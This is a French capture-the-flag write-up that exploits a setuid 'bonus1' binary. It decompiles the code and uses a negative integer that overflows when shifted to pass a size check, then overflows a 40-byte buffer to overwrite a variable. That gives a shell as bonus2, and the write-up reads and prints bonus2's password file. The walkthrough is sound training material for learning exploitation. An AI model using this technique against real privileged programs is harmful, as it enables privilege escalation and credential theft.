 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2011(bonus1) gid=2011(bonus1) groups=2011(bonus1),100(users)
/home/user/bonus1
total 17
dr-xr-x---+ 1 bonus1 bonus1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus1 bonus1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus1 bonus1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
-rw-r--r--+ 1 bonus1 bonus1   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus1 bonus1  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire `bonus1` :

```bash
$ ./bonus1
Segmentation fault (core dumped)
$ ./bonus1 dab
$ ./bonus1 dab itude
```

Sans succès, je me penche dès lors sur la décompilation.

J'utilise [Dogbolt](https://dogbolt.org/?id=e9dbc80b-2f99-46a6-8bbc-0ef4b8c2bda0#BinaryNinja=114&Reko=89) afin de décompiler le binaire du `bonus1`, qui a des protections contre la décompilation, mais certains décompilateurs réussissent.

Je recoupe la sortie de `RetDec` avec l'ASM et en extrait le probable code suivant :

```c
int main(int argc, char **argv)
{
    char buffer[40];
    int result;

    result = atoi(argv[1]); // <----------------1 user input to int, can't be above nine, but could be negative int overflown by multiplication
    if (result > 9)
        return 1;
    
    // <----------------------------------------2 below, user input is used to write memory allowing for overflow since len is multiplied by 4
    memcpy(buffer, argv[2], (size_t)result << 2);
    if (result == 0x574f4c46) // <--------------3 overflow rewrites the value of result here and allows passing the check
        execl("/bin/sh", "sh", 0); // <---------4 to shell access

    return 0;
}
```

D'après le code source, il semble qu'afin d'obtenir le shell, il faille passer la condition `result == 0x574f4c46` soit `result == 1464814662`.

En revanche, `result` ne peut pas être supérieur à 9. Il est cependant possible d'overflow la ligne :

```c
    memcpy(buffer, argv[2], (size_t)result << 2);
```

Si l'on réussit à passer ce check :

```c
    if (result > 9)
        return 1;
```

Puisque l'on pourra overflow le buffer de taille 40 avec une valeur de `result` supérieure à 10.
Je tente d'abord une approche avec un overflow de l'int, mais sans succès.

En utilisant la calculette de Windows cependant, pour essayer des opérations décimale/binaire autour des valeurs max et min de l'int, je tombe sur l'étonnante observation que :

`-2147483648 * n = 0` 

Et en effet, multiplier par 4 revient à faire un `n << 2`, donc, puisque la représentation binaire de `-2147483648` (INT_MIN) est :

`10000000000000000000000000000000`, après un left-shift de 2 bit, devient : `00000000000000000000000000000000`, soit 0.

Donc, puisque la représentation binaire de `-2147483647` (INT_MIN - 1) est : `10000000000000000000000000000001`, elle devient `00000000000000000000000000000100`, soit 4, après un left-shit de 2 bits (= une multiplication par 4).

Et ainsi de suite.

Je peux donc utiliser une valeur négative à passer à `atoi()`, puisque elle passera le `result > 9`, et sera multiplié par 4 au moment du `memcpy()`, ce qui va me permettre d'overflow le buffer et de changer la valeur de `result` afin de passer le dernier `if`.

Je dois donc créer un payload avec la structure suivante : `un nombre négatif me permettant d'overflow + padding (40 bytes) + la nouvelle valeur de result`.

En augmentant la valeur de l'INT_MIN jusqu'à `-2147483637`, dont la représentation binaire est `10000000000000000000000000001011`, et le left-bit shift de 2 résultant en : `00000000000000000000000000101100`, équivaut à 44.

Ce qui est un overflow de 4 bytes, ce qui est juste assez pour insérer la nouvelle valeur de l'int dans l'overflow, en d'autres termes, l'overflow écrira sur la zone mémoire de l'int `result` et changera donc sa valeur.

Je peux donc construire mon payload :

```
-2147483637 + "\x90" * 40 + 0x574f4c46
^^^^^^^^^^^   ^^^^^^^^^^^   ^^^^^^^^^^
result        buffer[40]    overflow sur result
```

Et l'essayer : 

```bash
$ ./bonus1 -2147483637 `python -c 'print "\x90"*40 + "\x57\x4f\x4c\x46"[::-1]'`
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$
```

Et c'est un succès !

